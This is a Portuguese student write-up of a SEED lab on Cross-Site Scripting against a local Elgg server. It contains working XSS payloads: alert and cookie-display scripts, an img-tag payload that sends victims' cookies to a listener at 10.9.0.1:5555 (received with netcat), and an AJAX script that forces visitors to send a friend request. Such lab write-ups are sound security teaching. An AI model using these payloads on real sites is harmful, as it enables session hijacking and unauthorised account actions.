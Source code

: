 # Cross-Site Scripting (XSS) 

## Setup

Numa fase inicial adicionamos novas entradas nos hosts conhecidos pela máquina virtual e executamos os containers fornecidos no lab:

```bash
sudo nano etc/hosts     # colocar '10.9.0.5 www.seed-server.com'
                        # colocar 'www.example{32a, 32b, 32c, 60, 70}.com'

$ dcbuild               # docker-compose build
$ dcup                  # docker-compose up
```

## Task 1 - Posting a Malicious Message to Display an Alert Window

A tarefa consistia em injetar um código javascript num perfil do *Elgg* de forma a aparecer uma mensagem num popup. Para isso iniciamos sessão com uma conta do sistema, por exemplo a da Alice (alice/seedalice), e editamos o seu perfil. Na parte "About Me", modificamos o HTML dessa secção e colocamos o script:

```html
<script>alert('XSS');</script>
```

Ao observarmos o perfil da Alice com outra conta do sistema, foi possível verificar que o ataque foi bem implementado: tal como esperado, a mensagem no popup apareceu:

![Task 1](../img/lab10task1.png)

## Task 2 - Posting a Malicious Message to Display Cookies

Esta tarefa é muito semelhante à anterior, embora o código seja diferente pois agora permite expor as cookies dos utilizadores assim que visualizam o perfil. Para isso, no campo "About me" da conta da Alice, colocamos o seguinte código:

```html
<script>alert(document.cookie);</script>
```

Agora, sempre que visualizamos o perfil da Alice, os nossos cookies aparecem na mensagem de alerta do próprio website:

![Task 2](../img/lab10task2.png)

## Task 3 - Stealing Cookies from the Victim’s Machine

A ideia do ataque é além de expor as cookies dos utilizadores enviá-las através de um *HTTP request* para o atacante, que estará à escuta na porta 5555 do mesmo servidor. Assim, foi necessário editar o perfil da Alice e na secção "About me" adicionar o seguinte código:

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='
                       + escape(document.cookie) + '   >');
</script>
```

Este código permite que sempre que a página de perfil da Alice é renderizada, os cookies da sessão do cliente seja enviado por *GET requests*. De forma a poder visualizar esses mesmos *requests*, abrimos uma shell e com o seguinte comando ficamos a interceptar as ligações:

```bash
$ nc -lknv 5555
```

Ao iniciar sessão com outra conta e visitar o perfil da Alice, recebemos através da ligação anteriormente feita as cookies desse utilizador do sistema:

![Task 3](../img/lab10task3.png)

## Task 4 - Becoming the Victim’s Friend

A ideia deste ataque é que, quando a vítima entrar no perfil do atacante, adiciona-o como amigo. 

Numa fase inicial, acedeu-se ao perfil do Sammy, fez-se um pedido de amizade e capturou-se o *request* com a ferramenta HTTP Header Live:

![Task 4 a](../img/lab10task4a.png)

Verificou-se que o endereço foi o seguinte:

```note
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669377267&__elgg_token=Zu2c7dLG2QTOULCeBD8Nsw&__elgg_ts=1669377267&__elgg_token=Zu2c7dLG2QTOULCeBD8Nsw
```

Com base neste URL, construiu-se um script que faz um pedido AJAX sempre que a página de perfil do Sammy é renderizada, e colocou-se no campo "About me" do Sammy. A variável `ts` é o timestamp do pedido e a variável `token` é um token dinâmico que garante a autenticidade do pedido, associada à sessão do utilizador.

```html
<script type="text/javascript">
    window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script> 
```

Tal como esperado, sempre que outro utilizador do sistema acede ao perfil do Sammy, o browser envia automaticamente um pedido de amizade:

![Task 4 b](../img/lab10task4b.png)

Na imagem pode-se observar que apesar do botão para a amizade não estar clicado, o pedido foi enviado.
